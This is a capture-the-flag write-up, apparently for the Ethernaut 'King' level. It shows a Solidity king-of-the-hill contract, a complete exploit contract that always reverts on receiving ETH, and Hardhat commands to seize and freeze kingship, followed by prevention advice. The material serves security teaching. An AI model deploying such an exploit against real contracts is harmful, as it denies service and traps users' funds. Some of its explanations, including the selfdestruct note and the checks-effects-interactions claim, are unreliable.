 # Level 9: King

## Objective

The goal of this level is to break the King contract and prevent anyone else from becoming the king.

## Contract Overview

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

The King contract implements a simple "king of the hill" game:
- The contract has a king address and a prize amount
- Anyone can become the new king by sending more ETH than the current prize
- When a new king takes over, the old king receives the ETH sent by the new king
- The prize is updated to the new amount sent

## Vulnerability

The key vulnerability is in the `receive()` function:

```solidity
payable(king).transfer(msg.value);
```

This line attempts to transfer ETH to the previous king. If the king is a contract that doesn't accept ETH (by not implementing a receive or fallback function, or by intentionally reverting in these functions), then this transfer will fail, which will prevent anyone from becoming the new king.

## Exploit

We can exploit this vulnerability by:
1. Creating a contract that can become king
2. Ensuring that contract can't receive ETH by implementing a receive function that always reverts
3. Making that contract the king

Here's the exploit contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingExploit {
    address public kingContractAddress;
    address public owner;
    
    constructor(address _kingContractAddress) {
        kingContractAddress = _kingContractAddress;
        owner = msg.sender;
    }
    
    function claimThrone() public payable {
        // Send ETH to the King contract to become the new king
        (bool success, ) = payable(kingContractAddress).call{value: msg.value}("");
        require(success, "Failed to claim throne");
    }
    
    // Implementing receive function that reverts
    receive() external payable {
        revert("Cannot receive ETH");
    }
    
    // Implementing fallback function that also reverts
    fallback() external payable {
        revert("Cannot receive ETH");
    }
}
```

**Note**: Some might think simply not implementing a receive or fallback function would be sufficient. However, ETH can still be forcibly sent to contracts through a `selfdestruct` operation. By implementing a receive function that explicitly reverts, we ensure that when the King contract tries to transfer ETH back to our contract, the transaction will always fail, regardless of how ETH might have been sent to our contract.

## Steps to Exploit

1. Deploy the King contract with an initial prize:
   ```
   npx hardhat deploy --tags king
   ```

2. Deploy the KingExploit contract:
   ```
   npx hardhat deploy --tags king-solution
   ```
   
   Or with a specific King contract address:
   ```
   TARGET_ADDRESS=0xYourAddress npx hardhat deploy --tags king-solution
   ```

3. Run the exploit script to make the KingExploit contract the new king:
   ```
   EXPLOIT_ADDRESS=0xYourExploitAddress KING_ADDRESS=0xKingAddress npx hardhat run scripts/level-09-king/claim-throne.ts --network sepolia
   ```
   
   The `EXPLOIT_ADDRESS` is required and should be the address of your deployed KingExploit contract.
   The `KING_ADDRESS` is optional and will use a default address if not provided.

3. Verify that the exploit worked by trying to become the new king (which should fail)

## Key Takeaways

1. **External Call Safety**: When making external calls that can fail, consider using lower-level `call()` instead of `transfer()` or `send()` so you can handle failures more gracefully.

2. **Design for Failures**: Smart contracts should be designed to handle cases where external calls fail, especially when the contract's functioning depends on these calls.

3. **DoS Attacks**: This is an example of a Denial of Service (DoS) attack. A malicious contract can prevent legitimate functions from executing by exploiting the requirement that all contract calls must succeed.

4. **Checks-Effects-Interactions Pattern**: Following this pattern could have prevented the vulnerability. The contract should update its state (setting the new king) before making external calls (sending ETH to the old king).

## Prevention

To prevent this vulnerability:
- Use the checks-effects-interactions pattern
- Use `call()` with proper error handling instead of `transfer()`
- Implement a pull-payment system where users withdraw funds themselves
- Consider adding a function to allow the owner to reclaim kingship in case of a DoS attack
